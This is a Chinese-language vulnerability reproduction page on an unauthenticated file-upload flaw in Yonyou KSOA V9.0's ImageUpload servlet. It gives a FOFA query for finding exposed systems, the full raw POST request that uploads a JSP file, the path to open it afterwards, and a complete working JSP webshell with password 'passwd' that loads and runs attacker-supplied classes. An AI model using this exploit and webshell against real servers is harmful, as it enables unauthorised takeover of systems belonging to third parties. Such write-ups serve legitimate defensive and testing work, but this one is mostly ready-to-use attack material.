


# 用友时空 KSOA V9.0 文件上传漏洞

## 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

## 网络测绘

```
app="用友-时空KSOA"
```

## 漏洞复现

登录界面：



漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```



访问 /pictures/1.jsp 即可。

### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

